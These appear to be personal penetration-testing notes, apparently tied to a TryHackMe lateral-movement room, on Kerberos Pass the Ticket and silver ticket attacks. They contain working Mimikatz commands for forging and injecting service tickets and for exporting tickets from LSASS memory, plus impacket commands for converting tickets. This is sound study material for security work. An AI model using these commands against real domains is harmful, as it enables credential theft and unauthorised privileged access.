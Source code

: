 ## Pass The Ticket 

The Pass the Ticket attack uses the TGS exported and re-injected elsewhere on the network and then used to authenticate to a specific service, no administrative privileges required. Does not provide addition access, but the flexibility to **CHOOSE** a machine to use the ticket from. If a service is registered with a Service Priniciple Name SPN, we could crack the service acount password hash and obtain the password from the service ticket then gaining access to the resources([[Active-Directory-Credential-Caching]],[[Windows-System-And-Service-Privileges]],[[Active-Directory-Default-Security-Groups-Table]] and any other AD object) of the service account. An Application on the server trusts the integrity of the service ticket, theoretically only known to the service account and the domain controller. Therefore using the service account the application will detirmine permission based on group memberships present in the service ticket. 

With service count password or its associated NTLM hash we can forge the a service ticket to access the target resource with any permissions wanted, custom-created tickets are called silver tickets, the silver ticket can be leveraged any server where the SPN is used. Once again [[Mimikatz-Cheatsheet]] Don't be confused `kerberos::golden` is for Silver Ticket Attacks, see Golden Ticket Attacks. Requires:# Username, Domainame, SID of Domain defined by all except the ultimate `-0000`, Service to target, Service type(eg. HTTP), password hahsh of the Service Account. Creating a service ticket for the SPN HTTP/WebServer.Domain.com with this technique from perspective of application the current user will be built-in local administrator and Domain Admin group member.

```powershell
kerberos::purge
kerberos::list

kerberos::golden /user:$user /domain:$domain.com /sid:$SID-minus-exception /target:$TargetServer.$domain.com /service:$servicetype /rc4:$passwordhash-of-spn /ptt # /ptt means directly injected into memory
```

Sometimes extraction of Kerberos tickets and sessions keys from LSASS memory with Mimikatz, requiring also SYSTEM privileges:
```powershell
privilege::debug
sekurlsa::tickets /export
```
Extract a desired ticket and inject the tickets into the current session, which doesn't require administrator privileges:
```powershell
kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-$DOMAIN.kirbi
```
Use `klist` to list Kerberos tickets.

## Remote Pass The Ticket

```bash
# Windows -> UNIX
impacket-ticketConverter $ticket.kirbi $ticket.ccache
# UNIX -> Windows
impacket-ticketConverter $ticket.ccache $ticket.kirbi

export KRB5CCNAME=$(pwd)/$ticket.ccache
```

[[Crackmapexec-Cheatsheet]] - `-k`
[[Impacket-Cheatsheet]]: `secretsdump -k` ; `impacket-smbclient -k`

## References

[THM Lateral movement and pivoting](https://tryhackme.com/room/lateralmovementandpivoting)